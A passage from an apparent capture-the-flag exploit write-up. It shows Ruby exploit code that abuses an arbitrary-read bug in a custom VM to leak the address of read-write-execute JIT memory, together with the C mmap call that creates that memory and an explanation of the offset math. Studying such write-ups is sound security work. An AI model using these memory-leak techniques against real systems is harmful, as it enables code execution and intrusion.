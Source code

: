 <pre>
<span class="Type">void</span> * JIT;     <span class="Comment">// </span><span class="Todo">TODO</span><span class="Comment">: add code to JIT functions</span>

<span class="Comment">//[...]</span>

    <span class="Comment">/*</span><span class="Comment"> Map 4096 bytes of executable memory </span><span class="Comment">*/</span>
    JIT = mmap(<span class="Constant">0</span>, <span class="Constant">4096</span>, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, <span class="Constant">0</span>);
</pre>

A pointer to the memory is stored in a global variable. Since we have the ability to read an arbitrary address&mdash;once I realized my 64-bit problem&mdash;it was pretty easy to read the pointer:

<pre>
<span class="rubyDefine">def</span> <span class="Identifier">leak_rwx_address</span>()
  puts(<span class="Special">&quot;</span><span class="Constant">[*] Attempting to leak the address of the mmap()'d +rwx memory...</span><span class="Special">&quot;</span>)
  s = init()

  <span class="Comment"># This offset is always constant, from the binary</span>
  jit_ptr = <span class="Identifier">@@base_addr</span> + <span class="Constant">0x20f5c0</span>

  <span class="Comment"># Read both halves of the address - the read is relative to the stack-</span>
  <span class="Comment"># based register array, and has a granularity of 4, hence the math</span>
  <span class="Comment"># I'm doing here</span>
  ops = []
  ops &lt;&lt; create_op(<span class="Type">OP_OUT</span>, (jit_ptr - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_OUT</span>, ((jit_ptr + <span class="Constant">4</span>) - <span class="Identifier">@@registers</span>) / <span class="Constant">4</span>)
  ops &lt;&lt; create_op(<span class="Type">OP_EXIT</span>)
  add(s, ops, <span class="Constant">16</span>)
  result = execute(s, <span class="Constant">0</span>, [])

  <span class="Comment"># Convert the result from a space-delimited hex list to an integer array</span>
  a = result.split(<span class="Special">/</span><span class="Constant"> </span><span class="Special">/</span>).map { |<span class="Identifier">str</span>| str.to_i(<span class="Constant">16</span>) }

  <span class="Comment"># Read the address</span>
  <span class="Identifier">@@rwx_addr</span> = ((a[<span class="Constant">1</span>] &lt;&lt; <span class="Constant">32</span>) | (a[<span class="Constant">0</span>]))

  <span class="Comment"># User output</span>
  puts(<span class="Special">&quot;</span><span class="Constant">[*] Found the +rwx memory: 0x</span><span class="Special">#{</span><span class="Identifier">@@rwx_addr</span>.to_s(<span class="Constant">16</span>)<span class="Special">}</span><span class="Special">&quot;</span>)

  s.close
<span class="rubyDefine">end</span>

</pre>

Basically, we know the pointer to the JIT code is at the base_addr + 0x20f5c0 (determined with IDA). So we do some math with that address and the base address of the <tt>registers</tt> array (dividing by 4 because that's the width of each register).
